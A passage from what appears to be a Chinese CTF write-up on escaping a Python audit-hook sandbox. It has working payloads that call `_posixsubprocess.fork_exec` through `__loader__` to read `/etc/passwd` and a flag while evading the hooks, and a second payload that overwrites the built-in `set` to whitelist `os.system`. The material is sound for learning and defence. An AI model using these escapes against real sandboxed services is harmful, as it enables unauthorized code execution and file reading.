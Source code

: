 下面是一个最小化示例:

```
import os
import _posixsubprocess

_posixsubprocess.fork_exec([b"/bin/cat","/etc/passwd"], [b"/bin/cat"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(os.pipe()), False, False,False, None, None, None, -1, None, False)
```

结合上面的 `__loader__.load_module(fullname)` 可以得到最终的 payload:

```
__loader__.load_module('_posixsubprocess').fork_exec([b"/bin/cat","/etc/passwd"], [b"/bin/cat"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(__loader__.load_module('os').pipe()), False, False,False, None, None, None, -1, None, False)
```

可以看到全程触发了 `builtins.input/result`, compile, exec 三个 hook, 这些 hook 的触发都是因为 input, compile, exec 函数而触发的, `__loader__.load_module` 和 `_posixsubprocess` 都没有触发.

```
[+] builtins.input/result, ('__loader__.load_module(\'_posixsubprocess\').fork_exec([b"/bin/cat","/flag"], [b"/bin/cat"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(__loader__.load_module(\'os\').pipe()), False, False,False, None, None, None, -1, None, False)',)
[+] compile, (b'__loader__.load_module(\'_posixsubprocess\').fork_exec([b"/bin/cat","/flag"], [b"/bin/cat"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(__loader__.load_module(\'os\').pipe()), False, False,False, None, None, None, -1, None, False)', '<string>')
[+] exec, (<code object <module> at 0x7fbecc924670, file "<string>", line 1>,)
```

### 另一种解法: 篡改内置函数[](#另一种解法-篡改内置函数)

这道 audit hook 题还有另外一种解法. 可以看到白名单是通过 set 函数返回的, set 作为一个内置函数实际上也是可以修改的

```
WHITED_EVENTS = set({'builtins.input', 'builtins.input/result', 'exec', 'compile'})
```

比如我们将 set 函数修改为固定返回一个包含了 os.system 函数的列表

```
__builtins__.set = lambda x: ['builtins.input', 'builtins.input/result','exec', 'compile', 'os.system']
```

这样 set 函数会固定返回带有 os.system 的列表.

```
__builtins__.set = lambda x: ['builtins.input', 'builtins.input/result','exec', 'compile', 'os.system']
```

最终 payload:

```
# 
exec("for k,v in enumerate(globals()['__builtins__']): print(k,v)")

# 篡改函数
exec("globals()['__builtins__']['set']=lambda x: ['builtins.input', 'builtins.input/result','exec', 'compile', 'os.system']\nimport os\nos.system('cat flag2.txt')")
```
